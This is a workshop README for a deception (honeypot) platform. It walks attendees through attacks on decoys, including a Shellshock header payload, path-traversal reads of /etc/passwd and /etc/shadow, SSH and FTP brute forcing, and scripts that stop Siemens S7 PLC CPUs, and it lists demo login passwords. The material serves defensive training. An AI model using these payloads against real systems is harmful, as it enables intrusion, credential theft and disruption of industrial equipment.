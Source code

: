 # Welcome to the Labyrinth Deception Platform workshop
All you may need for the workshop is available in this repository.
## Getting access
Our lab setup looks this way:

Please navigate to our demo stand:
1. **Credentials to the AdminVM**

You may use any web browser of your choice.
```
URL: https://demo.labyrinth.tech/
Username: user
Password: lFcGa0y7!_37
```
> [!NOTE]
> Feel free to create your own users here by going to the Settings->Users.

2. **Credentials to the attacking host**

From this host you will perform your attacks. Please use SSH and following credentials:
```
Host: warrior.labyrinth.tech
Username: user
Password: K4H*91kYg/j*
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own terminology that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **Admin VM (Management Console)**  = main module that controls the system.
6. **Worker VM** = node on which Points are running.

## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
Several tools can be used. For example, [nmap](https://nmap.org/):
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: deception using breadcrumbs
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: web deception using UWP
UWP stands for Universal Web Point. It is a decoy type, developed by the Labyrinth Security Solutions team, that allows to emulate anything that has a web interface just in seconds.

In this case we will be trying to exploit [Shellshock](https://blog.cloudflare.com/inside-shellshock).
```
curl -k -H "User-Agent: () { :; }; /bin/bash cat /etc/passwd" http://<UWP IP>/
```
#### Case 4: interaction with MQTT broker
Subscribe to all topics:
```
mosquitto_pub -h <MQTT broker IP> -t "#" [-u <username> -P <password>]
```
Publish a topic:
```
mosquitto_pub -h <Point IP> -t <topic name> [-u <username> -P <password>] -m 'My Message'
```

#### Case 5: S7comm malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is also available on your VM:
```
cd scripts
```
Simply run it: 
```
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
More about S7comm packet structure: [The Siemens S7 Communication - Part 1 General Structure](http://gmiru.com/article/s7comm/) and [The Siemens S7 Communication - Part 2 Job Requests and Ack Data](http://gmiru.com/article/s7comm-part2/)

#### [Advanced] Case 6: gathering info from web server

1. Find web server
```
sudo nmap -sS -sC -p80,443 <Honeynet subnet> -vvv 
```
Also search for an SSH host: 
```
sudo nmap -sS -sC -p22 <Honeynet subnet> -vvv 
```
2. Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Bonus step: search for additional web path:
```
dirsearch --wordlists=/home/student/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
Bonus step: reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 7: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP

Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
file <file>
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP address>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP address>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
